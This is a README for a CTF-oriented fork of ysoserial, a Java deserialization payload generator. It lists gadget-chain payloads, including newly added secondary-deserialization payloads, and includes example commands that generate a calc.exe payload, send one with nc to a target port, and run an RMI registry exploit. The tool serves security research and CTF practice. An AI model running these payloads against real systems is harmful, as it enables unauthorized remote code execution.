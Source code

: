 
# ysoserial

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[![Travis Build Status](https://api.travis-ci.com/frohoff/ysoserial.svg?branch=master)](https://travis-ci.com/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

添加了二次反序列化内容，更适合中国宝宝CTF体制

![logo](ysoserial.png)

## Description

家人们谁懂啊，居然没人做二次反序列化的，我先写三个payload为敬

目前SecObjRMICon和SecObjROME可用，后续会添加C3P0

参考来自

http://tttang.com/archive/1701/

[https://github.com/Y4tacker/JavaSec/blob/main/其他/Java二次反序列化/Java触发二次反序列化的点.md](https://github.com/Y4tacker/JavaSec/blob/main/其他/Java二次反序列化/Java触发二次反序列化的点.md)

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
java -jar ysoserial-Second-0.0.1-all.jar
Y SO SERIAL?
Add some payload by J1an
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
Usage: java -jar ysoserial-[version]-all.jar secobjxxx '原payload:command'
  Available payload types:
七月 23, 2023 4:06:58 下午 org.reflections.Reflections scan
信息: Reflections took 82 ms to scan 1 urls, producing 18 keys and 165 values
     Payload             Authors                                Dependencies                                                                                                          
     -------             -------                                ------------                                                                                                          
     AspectJWeaver       @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2                                                                        
     BeanShell1          @pwntester, @cschneider4711            bsh:2.0b5                                                                                                             
     C3P0                @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11                                                                             
     Click1              @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0                                                                           
     Clojure             @JackOfMostTrades                      clojure:1.8.0                                                                                                         
     CommonsBeanutils1   @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2                                                 
     CommonsCollections1 @frohoff                               commons-collections:3.1                                                                                               
     CommonsCollections2 @frohoff                               commons-collections4:4.0                                                                                              
     CommonsCollections3 @frohoff                               commons-collections:3.1                                                                                               
     CommonsCollections4 @frohoff                               commons-collections4:4.0                                                                                              
     CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1                                                                                               
     CommonsCollections6 @matthias_kaiser                       commons-collections:3.1                                                                                               
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1                                                                                               
     FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4                                                                              
     Groovy1             @frohoff                               groovy:2.3.9                                                                                                          
     Hibernate1          @mbechler                                                                                                                                                    
     Hibernate2          @mbechler                                                                                                                                                    
     JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler                                                                                                                                                    
     JRMPListener        @mbechler                                                                                                                                                    
     JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff                                                                                                                                                     
     Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                               
     MozillaRhino1       @matthias_kaiser                       js:1.7R2                                                                                                              
     MozillaRhino2       @_tint0                                js:1.7R2                                                                                                              
     Myfaces1            @mbechler                                                                                                                                                    
     Myfaces2            @mbechler                                                                                                                                                    
     ROME                @mbechler                              rome:1.0                                                                                                              
     SecObjBA            @J1an                                  jackson                                                                                                               
     SecObjRMICon        @J1an                                  commons-collections:3.1                                                                                               
     SecObjROME          @J1an                                  rome:1.0                                                                                                              
     Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                 
     Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                             
     URLDNS              @gebl                                                                                                                                                        
     Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                            
     Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4             
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)

Download the [latest release jar](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar) from GitHub releases.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
